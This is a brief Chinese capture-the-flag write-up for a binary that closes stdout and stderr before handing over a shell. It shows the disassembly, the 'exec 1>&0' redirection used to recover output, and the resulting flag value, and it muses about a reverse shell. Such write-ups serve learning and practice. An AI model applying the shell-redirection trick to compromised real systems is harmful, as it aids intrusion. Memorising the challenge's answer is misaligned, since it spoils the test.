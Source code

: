 这什么题啊，不是栈也不是堆？

```assembly
.text:000000000040072E                 push    rbp
.text:000000000040072F                 mov     rbp, rsp
.text:0000000000400732                 mov     edi, offset aHahahaWhatElse ; "HaHaHa!\nWhat else can you do???"
.text:0000000000400737                 call    _puts
.text:000000000040073C                 mov     edi, 1          ; fd
.text:0000000000400741                 call    _close
.text:0000000000400746                 mov     edi, 2          ; fd
.text:000000000040074B                 call    _close
.text:0000000000400750                 mov     eax, 0
.text:0000000000400755                 call    shell
.text:000000000040075A                 nop
.text:000000000040075B                 pop     rbp
.text:000000000040075C                 retn
```

懂了，程序关闭stdout、stderr后进入shell，所以我们得想办法在不通过stdout和stderr的情况下拿到flag。

```sh
$exec 1>&0
$cat flag
$flag{97014b24-dcc8-400f-9a20-0f6ecdfab4a0}
```

- [linux exec与重定向](http://xstarcd.github.io/wiki/shell/exec_redirect.html)

是不是还可以反弹shell啊...没试过